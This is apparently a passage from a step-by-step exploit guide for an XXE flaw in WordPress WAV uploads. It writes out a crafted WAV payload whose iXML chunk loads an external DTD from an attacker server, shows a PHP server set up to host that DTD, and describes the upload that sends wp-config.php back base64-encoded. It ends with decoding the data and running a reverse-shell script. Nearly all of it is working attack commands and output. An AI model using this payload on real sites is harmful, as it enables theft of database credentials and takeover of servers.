```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://YOUR_SERVER_IP:PORT/poc.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

Example:

```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.75.33:8080/poc.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

### 3. Set Up a PHP Server
Host the poc.dtd file on your local machine using a PHP server.

Command:

```bash
php -S YOUR_SERVER_IP:PORT
```

Example:

```bash
php -S 10.10.75.33:8080
```

### 4. Upload the Payload (poc.wav)
Upload the poc.wav file to the vulnerable WordPress website.

When the server processes the .wav file, the payload will trigger, and the Base64-encoded data of the wp-config.php file will be sent to your server.

Example Response:

```bash
p=nVZtT+NGEP5cJP7DcK2UKyVxOaSq4lqVQFKCLkdonAjdp2hjr+0Vzu7evoSLTvffO7N2...
```

### 5.Decoding the Base64 String
Option 1: PHP Script (Recommended)
Use a PHP script to decode the Base64 string:

```bash
<?php
$data = 'BASE64_STRING';
echo base64_decode($data);
?>
```

Option 2: Command Line

```bash
echo "BASE64_STRING" | base64 -d
```

### 6. Run the file:
   ```bash
   php revshell.php
   ```
